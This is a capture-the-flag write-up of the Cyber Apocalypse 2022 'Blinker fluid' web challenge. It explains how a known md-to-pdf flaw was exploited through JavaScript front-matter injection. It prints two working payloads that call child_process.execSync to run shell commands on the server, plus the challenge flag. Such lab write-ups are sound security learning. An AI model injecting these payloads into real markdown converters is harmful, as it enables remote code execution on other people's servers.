 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Blinker fluid Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: web
challenge: Blinker fluid
tags: "web, bobby, legend, starry, twh, node, cve"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Blinker fluid
> Solved By : Bobbysox, Legend, Starrylord, thewhiteh4t

In blinker fluid challenge our markdown input gets converted into a PDF file available for download.

in the site source we checked `package.json` file :

```json
{
        "name": "blinker-fluids",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "scripts": {
                "start": "node index.js"
        },
        "keywords": [],
        "author": "rayhan0x01",
        "license": "ISC",
        "dependencies": {
                "express": "^4.17.3",
                "md-to-pdf": "^4.1.0",
                "nunjucks": "3.2.3",
                "sqlite-async": "1.1.3",
                "uuid": "8.3.2"
        },
        "devDependencies": {
                "nodemon": "^1.19.1"
        }
}
```

interesting things in this file are : 

```
"md-to-pdf": "^4.1.0"
"nunjucks": "3.2.3"
```

we quickly found the following CVE for `md-to-pdf` : 

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

payload as shown in the link : 

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

the payload did not work for us as it is so we looked for more info on the same and found this : 

https://github.com/11ty/eleventy/issues/1208


[11ty/eleventy#1208](https://github.com/11ty/eleventy/issues/1208)

so basically nunjucks was having issues with single line payload so we settled on the following : 

```
---js
((require("child_process")).execSync("cat ../flag.txt > static/invoices/rce.txt"))
---
```

line 1 and 3 needed to be exactly as above for it to work and we redirected flag to a file in invoices directory…

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```